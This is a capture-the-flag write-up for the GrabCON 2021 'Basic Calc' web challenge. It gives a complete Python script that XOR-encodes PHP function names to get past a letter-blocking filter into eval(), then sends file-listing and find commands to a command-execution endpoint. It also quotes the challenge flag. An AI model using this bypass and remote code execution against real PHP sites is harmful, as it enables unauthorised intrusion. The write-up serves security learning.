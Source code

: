 # Basic Calc Writeup (web, 150pts, 88 solved)

## Description
```
Ever used calc based on php?

Link

Author: karma
```

## Task Analysis

Following the link brought me to the following webpage:

![Intro](/GrabConCTF-2021/Basic Calc/screenshots/intro.PNG)

Users are presented with a field designed to serve as a calculator, and immediately below it the unrendered html and php for the page. This made it clear that the field was protected by a WAF designed to disallow any upper or lower case letters as well as the "`" character within the submitted string. Any input that makes it past the WAF is passed to the eval() function. Our task, then, was to bypass this WAF and exploit the use of eval() to execute our own php code and find the flag.

# Solution

After briefly researching the topic I used a modified version of a python script from a [writeup for a previous CTF](https://ironhackers.es/en/tutoriales/saltandose-waf-ejecucion-de-codigo-php-sin-letras/) that bypasses a very similar WAF:

```
import requests
import string

def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
print("[+] Generated valids => {}".format(valids))
 
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
 
response = requests.post('http://35.238.221.234', data={"eq":payload})

print(response.status_code, response.reason)
print(response.content.decode())
```

The script first creates a set of "valid" (i.e. will not trigger the WAF) printable characters. Each character in the "expected" string (the string we would like to be executed by eval()) is masked with a valid character from this set so that the result is another valid character. The masked characters (word1 below) and the valid characters used for the mask (word2 below) are then returned:  

```
def get_xor_strings(expected, valids):
  word1 = ""
  word2 = ""
  for i in expected:
    for valid in valids:
      result = chr(ord(i) ^ ord(valid))
      if result in valids:
        word1 = word1 + result
        word2 = word2 + valid
        break
  return word1, word2

valids = [ ]
for item in string.printable:
  if item not in string.ascii_letters:
    valids.append(item)
valids = valids[:len(valids)-3]
```

Masking is removed when the eval() statement applies the XOR operator ("^") included in the final payload string, which cancels out the initial masking. Something to note is that performing an XOR on two strings works here because php will perform [type juggling](https://www.php.net/manual/en/language.types.type-juggling.php) when evaluating strings in a numerical context:

```
expected = "phpinfo"
word1, word2 = get_xor_strings(expected, valids)
print("[+] Word 1 {}- Word2 {}".format(word1, word2))

payload = "666; (\"{}\"^\"{}\")()".format(word1, word2)
print("[+] Sending payload {}".format(payload))
```

I executed the script with "phpinfo()" encoded as the payload and achieved the following output:

![working_bypass](/GrabConCTF-2021/Basic Calc/screenshots/phpinfo.PNG)

Receiving the desired output of phpinfo() determined that the bypass was working. I executed the script with "print_r(scandir(/var/www/html/))" as the payload to print out the current directory's contents:

![scandir](/GrabConCTF-2021/Basic Calc/screenshots/scandir.PNG)

I repeated running the script using "show_source(12.php)" to retrieve the contents of the file (the same was done for file.txt but it was empty of meaningful content):

![show_source](/GrabConCTF-2021/Basic Calc/screenshots/show_source.PNG)

Upon rendering the response to make it more readable, I had:

![rendered_response](/GrabConCTF-2021/Basic Calc/screenshots/rendered_response.PNG)

This file gave me an endpoint that could execute whatever bash commands I wanted to send to it using a GET request, which would allow me to navigate the file system much more easily. So I used the Burp decoder tool to URL encode the following:

![burp_encode_find](/GrabConCTF-2021/Basic Calc/screenshots/burp_encode_find_flag.PNG)

And sent it to the endpoint:
```
import requests

#find / -name *flag*
response = requests.post('http://35.238.221.234/12.php?cmd=%66%69%6e%64%20%2f%20%2d%6e%61%6d%65%20%2a%66%6c%61%67%2a')

print(response.status_code, response.reason)
print(response.content.decode())
```
I recieved the following output:
![find_output](/GrabConCTF-2021/Basic Calc/screenshots/find_flag_output.PNG)

I repeated the above for "cat /flagggg.txt", and received:

![flag](/GrabConCTF-2021/Basic Calc/the_flag.PNG)

And I found the flag: "GrabCON{b4by_php_f0r_y0u}"
